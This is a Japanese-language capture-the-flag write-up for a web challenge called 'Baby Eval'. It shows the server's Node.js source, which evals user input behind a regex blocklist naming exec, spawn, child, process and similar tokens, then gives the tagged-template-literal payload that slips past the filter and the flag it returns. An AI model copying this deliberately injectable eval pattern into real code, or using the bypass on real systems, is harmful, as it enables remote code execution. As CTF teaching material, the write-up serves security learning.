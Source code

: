 # Baby Eval:Web:435pts
Yet another baby challenge…  
[https://babyeval-twekqonvua-uc.a.run.app/](https://babyeval-twekqonvua-uc.a.run.app/)  

# Solution
URLが渡されるのでアクセスすると、ソースなど各種情報が表示されているサイトであった。  
[site.png](site/site.png)  
ソースを見ると以下のようであった。  
```js
const express = require('express');
const app = express();

function escape(s) {
    return `${s}`.replace(/./g,c => "&#" + c.charCodeAt(0) + ";");
}

function directory(keys) {
    const values = {
        "title": "View Source CTF",
        "description": "Powered by Node.js and Express.js",
        "flag": process.env.FLAG,
        "lyrics": "Good job, you’ve made it to the bottom of the mind control facility. Well done.",
        "createdAt": "1970-01-01T00:00:00.000Z",
        "lastUpdate": "2022-02-22T22:22:22.222Z",
        "source": require('fs').readFileSync(__filename),
    };

    return "<dl>" + keys.map(key => `<dt>${key}</dt><dd><pre>${escape(values[key])}</pre></dd>`).join("") + "</dl>";
}

app.get('/', (req, res) => {
    const payload = req.query.payload;

    if (payload && typeof payload === "string") {
        const matches = /([\.\(\)'"\[\]\{\}<>_$%\\xu^;=]|import|require|process|proto|constructor|app|express|req|res|env|process|fs|child|cat|spawn|fork|exec|file|return|this|toString)/gi.exec(payload);
        if (matches) {
            res.status(400).send(matches.map(i => `<code>${i}</code>`).join("<br>"));
        } else {
            res.send(`${eval(payload)}`);
        }
    } else {
        res.send(directory(["title", "description", "lastUpdate", "source"]));
    }
});

app.listen(process.env.PORT, () => {
    console.log(`Server started on http://127.0.0.1:${process.env.PORT}`);
});
```
`"flag": process.env.FLAG`にフラグがあるため、`directory("flag")`を呼び出せばreturnされることがわかる。  
`/`へのアクセスの挙動を見ると`req.query.payload`とクエリを受け取り、正規表現でフィルタしたのちに、evalしている。  
`[\.\(\)'"\[\]\{\}<>_$%\\xu^;=]`がネックであり通常通りの記述で関数は呼び出せないと思われるが、`` alert`test` ``で文字列を引数として関数が実行できることを思い出す。  
`` directory`flag` ``としてやればよい。  
`` https://babyeval-twekqonvua-uc.a.run.app/?payload=directory`flag` ``にアクセスする。  
[flag.png](site/flag.png)  
flagが得られた。  

## vsctf{regExAin’tGoodEnufForWAF}
